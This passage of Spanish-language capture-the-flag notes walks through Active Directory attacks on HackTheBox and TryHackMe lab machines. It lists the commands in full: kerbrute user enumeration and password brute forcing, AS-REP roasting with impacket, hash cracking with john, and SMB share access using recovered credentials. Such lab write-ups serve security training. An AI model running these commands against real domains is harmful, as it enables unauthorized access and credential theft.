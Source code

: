 ```
./kerbrute_linux_amd64 userenum -d cicada.htb --dc 10.10.11.35 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

Ahora fuerza bruta de contraseñas.

```
./kerbrute_linux_amd64 bruteuser -d cicada.htb --dc 10.10.11.35 pass.txt emily.oscars
```

## Attacktive directory (THM)

Información de qué nos estamos enfrentando.

```
crackmapexec smb IP
```

```
enum4linux -a 10.10.161.237
```

Usamos kerbrute.

{% @github-files/github-code-block url="https://github.com/TarlogicSecurity/kerbrute" %}

```
python3 kerbrute.py -users userlist.txt -passwords passwordlist.txt -domain spookysec.local -t 100
```

Hemos encontrado un ususario. Pedimos al Domain Controller el Ticket.

```
impacket-GetNPUsers spookysec.local/svc-admin -no-pass
```

Crackeamos el hash.

```
john --wordlist=/rockyou.txt hash
```

Comprobamos que ese usuario tiene esa contraseña.

```
crackmapexec smb IP -u 'svc-admin' -p 'Contraseña'
```

Teniendo estas credenciales, miramos recursos compartidos.

```
smbclient -L spooky.local --user 'svc-admin' --password 'contraseña'
```

Entramos dentro de los recursos compartidos.

```
smbclient \\\\spooky.local\\backup --user svc-admin --password management2005
```

Descargamos el archivo y decodificamos contraseña. Podemos dumpear la contraseña con **impacket**.
